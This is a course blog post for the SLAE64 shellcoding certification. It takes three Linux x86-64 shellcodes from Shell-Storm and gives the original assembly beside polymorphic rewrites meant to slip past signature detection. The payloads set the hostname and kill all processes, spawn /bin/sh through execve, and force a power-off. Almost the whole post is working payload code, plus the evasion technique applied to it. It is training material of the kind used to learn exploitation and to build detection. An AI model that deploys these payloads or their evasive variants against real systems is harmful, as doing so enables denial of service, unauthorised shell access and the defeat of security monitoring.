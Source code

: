 ```yaml
---
layout: post
title:  "Slae64 Assignment #6"
date:   2018-05-25 00:10:45
categories: jekyll update
---
```


# SLAE Assignment #6

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE64 - 1525

## Assignment

* Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
* The polymorphic versions cannot be larger 150% of the existing shellcode
* Bonus points for making it shorter in length than original

## Polymorphic Shellcode1

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-605.php
* Original Size: 33 bytes

Creating a file with the original shellcode:

```
 From: http://shell-storm.org/shellcode/files/shellcode-605.php
; Filename: shellcode1.nasm
; Author:  SLAE64 - 1525
;
; Purpose: sethostname() & killall

; sethostname("Rooted !");
; kill(-1, SIGKILL);

section .text

global _start
 
_start:
 
    ;-- setHostName("Rooted !"); 22 bytes --;
    mov     al, 0xaa
    mov     r8, 'Rooted !'
    push    r8
    mov     rdi, rsp
    mov     sil, 0x8
    syscall
 
    ;-- kill(-1, SIGKILL); 11 bytes --;
    push    byte 0x3e
    pop     rax
    push    byte 0xff
    pop     rdi
    push    byte 0x9
    pop     rsi
    syscall
```

Polymorphic version:

```
; From: http://shell-storm.org/shellcode/files/shellcode-605.php
; Filename: shellcode1.poly.nasm
; Author:  SLAE64 - 1525
;
; Purpose: sethostname() & killall

; sethostname("Rooted !");
; kill(-1, SIGKILL);
BITS 64

section .text

SYS_SETHOSTNAME equ 0xaa
SYS_KILL equ 0x3e

global _start
 
_start:
    ;-- setHostName("");
    xor r10, r10
    push byte SYS_SETHOSTNAME
    pop rax
    push r10
    push rsp
    pop rdi
        
    syscall
 
    ;-- kill(-1, SIGKILL);
    push byte SYS_KILL
    pop rax
    mov rdi, r10
    not rdi
    mov rsi, r10
    add rsi, 9

    syscall
```

* New size: 30 bytes
* Dimension ratio: 90% of original

## Polymorphic Shellcode2

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-806.php
* Original Size: 27 bytes

Creating a file with the original shellcode:

```
; From: http://shell-storm.org/shellcode/files/shellcode-806.php
; Filename: shellcode2.nasm
; Author: SLAE64 - 1525
;
; Purpose: Execute /bin/sh

section .text

    global _start
 
_start:
    ;mov rbx, 0x68732f6e69622f2f
    ;mov rbx, 0x68732f6e69622fff
    ;shr rbx, 0x8
    ;mov rax, 0xdeadbeefcafe1dea
    ;mov rbx, 0xdeadbeefcafe1dea
    ;mov rcx, 0xdeadbeefcafe1dea
    ;mov rdx, 0xdeadbeefcafe1dea
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    ;mov rdi, rsp
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    ;mov rsi, rsp
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```

Polymorphic version:

```
; From: http://shell-storm.org/shellcode/files/shellcode-806.php
; Filename: shellcode2.nasm
; Author: SLAE64 - 1525
;
; Purpose: Execute /bin/sh
BITS 64
section .text
global _start

SYS_EXECVE equ 0x3b
SH equ 0x68732f6e69622f2f
 
_start:
    sub rax, rax
    mov rdx, rax
    push rax
    mov rbx, SH
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi, rsp

    push byte SYS_EXECVE
    pop rax

    syscall
```

* New size: 31 bytes
* Dimension ratio: 114% of original

## Polymorphic Shellcode3

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-602.php
* Original Size: 19 bytes

Creating a file with the original shellcode:

```
; From: http://shell-storm.org/shellcode/files/shellcode-602.php
; Filename: shellcode3.nasm
; Author:  SLAE64 - 1525
;
; Purpose: reboot(POWER_OFF)

section .text
    global _start
 
_start:
    mov edx, 0x4321fedc
    mov esi, 0x28121969
    mov edi, 0xfee1dead
    mov al,  0xa9
    syscall
```

Polymorphic version:

```
; From: http://shell-storm.org/shellcode/files/shellcode-602.php
; Filename: shellcode3.poly.nasm
; Author:  SLAE64 - 1525
;
; Purpose: reboot(POWER_OFF)
BITS 64

section .text
global _start

SYS_REBOOT equ 0xa9
CMD equ 0x4321fedc
 
_start:
    mov edx, CMD
    mov esi, edx
    add esi, 0x1B0FE573 ; 0x28121969
    mov edi, esi
    add edi, 0xD6CFC544 ; 0xfee1dead
    
    push byte SYS_REBOOT
    pop rax
    syscall
```

* New size: 26 bytes
* Dimension ratio: 136% of original